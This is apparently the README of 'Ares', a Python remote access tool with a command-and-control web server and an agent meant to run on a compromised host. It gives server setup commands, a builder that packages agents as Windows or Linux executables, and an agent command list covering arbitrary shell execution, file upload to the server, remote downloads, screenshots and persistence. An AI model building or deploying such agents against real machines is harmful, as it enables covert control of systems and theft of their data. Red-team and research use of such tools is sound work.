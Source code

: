 # Ares

Ares is a Python Remote Access Tool.

__Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.__

Ares is made of two main programs:

- A Command aNd Control server, which is a Web interface to administer the agents
- An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python3. The agent uses Python2 and can be compiled to native executables using **pyinstaller**.

## Server

Install the Python requirements for the server:

```
cd server
pip3 install -r requirements.txt
```

Initialize the database:

```
python3 ares.py initdb
```

Run with the builtin (debug) server:

```
python3 ares.py runserver -h 0.0.0.0 -p 8080 --threaded
```

Or run using gunicorn:

```
# HTTP server
gunicorn

# HTTPS server using self-signed certificate (if no valid certificate available)
openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout key.pem -days 1365
gunicorn  ares:app -b 0.0.0.0:8080 --threads 20 --certfile cert.pem --keyfile key.pem
```

The server should now be accessible on http(s)://localhost:8080

## Agent

Install the Python requirements for the agent:

```
cd agent
pip3 install -r requirements.txt
```

For compiling Windows executables on Linux, wine is needed:

```
./wine_setup.sh
```

### Building an agent

Build a new agent to a standalone binary:

```
# Windows
./builder.py --server http://localhost:8080 -o agent.exe -p windows

# Linux
./builder.py --server http://localhost:8080 -o agent -p linux
```

### Supported agent commands

```
<any shell command>
Executes the command in a shell and return its output.

upload <local_file>
Uploads <local_file> to server.

download <url> <destination>
Downloads a file through HTTP(S).

zip <archive_name> <folder>
Creates a zip archive of the folder.

screenshot
Takes a screenshot.

persist
Installs the agent.

clean
Uninstalls the agent.

exit
Kills the agent.

help
This help.
```
